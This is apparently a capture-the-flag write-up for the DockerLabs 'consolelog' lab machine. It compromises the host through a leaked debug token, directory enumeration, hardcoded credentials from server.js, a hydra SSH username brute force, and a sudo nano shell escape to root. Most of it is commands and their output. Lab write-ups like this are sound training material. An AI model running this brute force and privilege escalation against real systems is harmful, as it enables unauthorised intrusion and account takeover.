




# consolelog

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| consolelog | El Pingüino de Mario | easy | dockerlabs |

**Summary:** This assessment began with broad network service enumeration that exposed Apache on port 80, an Express service on port 3000, and SSH on port 5000. Web inspection revealed a client side debugging message that leaked a backend token, and the proxy behavior on `/recurso/` exposed the internal virtual host requirement. After mapping `consolelog.lab` locally and enumerating directories, an exposed JavaScript backend path disclosed hardcoded credentials that were reused for SSH access. Because the username was unknown, targeted username brute force with a fixed recovered password identified a valid account, enabling shell access as `lovely`. Local privilege escalation then succeeded through a dangerous sudo policy that granted passwordless execution of `nano`, which was abused with a known editor escape technique to spawn a root shell and fully compromise the host.

## Reconnaissance

1. The target machine was deployed, then baseline service discovery was performed against all TCP ports with default scripts and version detection.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs/consolelog]
└─$ sudo bash auto_deploy.sh consolelog.tar
[sudo] password for ouba:

                            ##        .
                      ## ## ##       ==
                   ## ## ## ##      ===
               /""""""""""""""""\___/ ===
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/
                 \    \        __/
                  \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]


Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/consolelog]
└─$ ip=172.17.0.2 && url=http://$ip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/consolelog]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-17 21:46 WIB
Nmap scan report for picadilly.lab (172.17.0.2)
Host is up (0.000010s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Mi Sitio
3000/tcp open  http    Node.js Express framework
|_http-title: Error
5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 f8:37:10:7e:16:a2:27:b8:3a:6e:2c:16:35:7d:14:fe (ECDSA)
|_  256 cd:11:10:64:60:e8:bf:d9:a4:f4:8e:ae:3b:d8:e1:8d (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.45 seconds
```

2. Port 80 content inspection exposed a beta authentication JavaScript routine with a sensitive debug hint that referenced `/recurso/` and leaked `tokentraviesito`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/consolelog]
└─$ curl -i $url
HTTP/1.1 200 OK
Date: Tue, 17 Mar 2026 14:50:27 GMT
Server: Apache/2.4.61 (Debian)
Last-Modified: Mon, 29 Jul 2024 12:43:10 GMT
ETag: "ea-61e623419d380"
Accept-Ranges: bytes
Content-Length: 234
Vary: Accept-Encoding
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
    <title>Mi Sitio</title>
    <script src="authentication.js"></script>
</head>
<body>
    <h1>Bienvenido a Mi Sitio</h1>
    <button onclick="autenticate()">Boton en fase beta</button>
</body>
</html>

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/consolelog]
└─$ curl -i $url/authentication.js
HTTP/1.1 200 OK
Date: Tue, 17 Mar 2026 14:50:42 GMT
Server: Apache/2.4.61 (Debian)
Last-Modified: Mon, 29 Jul 2024 12:43:59 GMT
ETag: "75-61e62370581c0"
Accept-Ranges: bytes
Content-Length: 117
Vary: Accept-Encoding
Content-Type: text/javascript

function autenticate() {
    console.log("Para opciones de depuracion, el token de /recurso/ es tokentraviesito");
}
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/consolelog]
└─$ curl -i $url/recurso/
HTTP/1.1 500 Proxy Error
Date: Tue, 17 Mar 2026 14:55:17 GMT
Server: Apache/2.4.61 (Debian)
Content-Length: 342
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Proxy Error</title>
</head><body>
<h1>Proxy Error</h1>
The proxy server could not handle the request<p>Reason: <strong>DNS lookup failure for: consolelog.lab</strong></p><p />
<hr>
<address>Apache/2.4.61 (Debian) Server at 172.17.0.2 Port 80</address>
</body></html>
```

3. The Express endpoint on port 3000 returned a framework error page, confirming that further routing logic was likely hidden behind virtual host configuration.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/consolelog]
└─$ curl -i $url:3000/
HTTP/1.1 404 Not Found
X-Powered-By: Express
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 139
Date: Tue, 17 Mar 2026 14:54:58 GMT
Connection: keep-alive
Keep-Alive: timeout=5

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /</pre>
</body>
</html>
```

4. Local host mapping enabled proper virtual host resolution, and content discovery identified `/backend/` and `/javascript/`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/consolelog]
└─$ echo '172.17.0.2 consolelog.lab' | sudo tee -a /etc/hosts
[sudo] password for ouba:
172.17.0.2 consolelog.lab

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/consolelog]
└─$ url=http://consolelog.lab
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/consolelog]
└─$ gobuster dir -u $url -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x .txt,.php,.html
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://consolelog.lab
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 234]
/backend              (Status: 301) [Size: 318] [--> http://consolelog.lab/backend/]
/javascript           (Status: 301) [Size: 321] [--> http://consolelog.lab/javascript/]
/server-status        (Status: 403) [Size: 279]
Progress: 882228 / 882228 (100.00%)
===============================================================
Finished
===============================================================
```



5. Directory listing exposed application files, and reviewing `server.js` revealed the credential material used in the next stage.



## Initial Access

1. With a discovered password but unknown username, SSH username brute force was executed against port 5000 and produced valid credentials for `lovely`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/consolelog]
└─$ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://$ip -t 8 -s 5000
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-17 22:05:05
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8295455 login tries (l:8295455/p:1), ~1036932 tries per task
[DATA] attacking ssh://172.17.0.2:5000/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 8295299 to do in 886:15h, 8 active
[STATUS] 151.33 tries/min, 454 tries in 00:03h, 8295001 to do in 913:33h, 8 active
[STATUS] 157.14 tries/min, 1100 tries in 00:07h, 8294355 to do in 879:43h, 8 active
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
```

2. SSH login as `lovely` confirmed interactive user access and validated account context.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/consolelog]
└─$ ssh lovely@$ip -p 5000
lovely@172.17.0.2's password:
Linux 93a391885ec6 6.6.87.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lovely@93a391885ec6:~$ id;ls -la
uid=1001(lovely) gid=1001(lovely) groups=1001(lovely),100(users)
total 24
drwx------ 1 lovely lovely 4096 Jul 30  2024 .
drwxr-xr-x 1 root   root   4096 Jul 29  2024 ..
-rw------- 1 lovely lovely   13 Jul 30  2024 .bash_history
-rw-r--r-- 1 lovely lovely  220 Jul 29  2024 .bash_logout
-rw-r--r-- 1 lovely lovely 3526 Jul 29  2024 .bashrc
-rw-r--r-- 1 lovely lovely  807 Jul 29  2024 .profile
```

## Privilege Escalation

1. Sudo rights inspection showed passwordless execution of `/usr/bin/nano`, creating a direct privilege escalation path.

```bash
lovely@93a391885ec6:~$ sudo -l
Matching Defaults entries for lovely on 93a391885ec6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User lovely may run the following commands on 93a391885ec6:
    (ALL) NOPASSWD: /usr/bin/nano
lovely@93a391885ec6:~$ sudo /usr/bin/nano
```

2. The nano GTFOBins method was used to invoke a root shell through spell checker substitution.



```bash
lovely@93a391885ec6:~$ sudo nano -s /bin/bash
```

3. After entering `/bin/bash` inside nano and triggering the execution flow, the shell context switched to root.



```bash
root@93a391885ec6:~# id;whoami;hostname;pwd;ls -la
uid=0(root) gid=0(root) groups=0(root)
root
93a391885ec6
/root
total 40
drwx------ 1 root root 4096 Jul 30  2024 .
drwxr-xr-x 1 root root 4096 Mar 17 14:44 ..
-rw------- 1 root root   92 Mar 17 15:23 .bash_history
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x 1 root root 4096 Jul 29  2024 .local
drwxr-xr-x 4 root root 4096 Jul 29  2024 .npm
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4096 Jul 29  2024 .ssh
```

## Attack Chain Summary
1. **Reconnaissance**: Full TCP scanning identified Apache, Express, and SSH services, then HTTP inspection exposed a debugging clue tied to a protected backend route.
2. **Vulnerability Discovery**: Virtual host behavior and directory enumeration revealed browsable backend assets and JavaScript source files containing sensitive operational data.
3. **Exploitation**: Recovered credential material was operationalized by brute forcing usernames against SSH with the known password, yielding valid remote access.
4. **Internal Enumeration**: User context validation and sudo policy review revealed a high risk misconfiguration that allowed unrestricted nano execution as root.
5. **Privilege Escalation**: The nano shell escape technique provided immediate root command execution and complete host takeover.

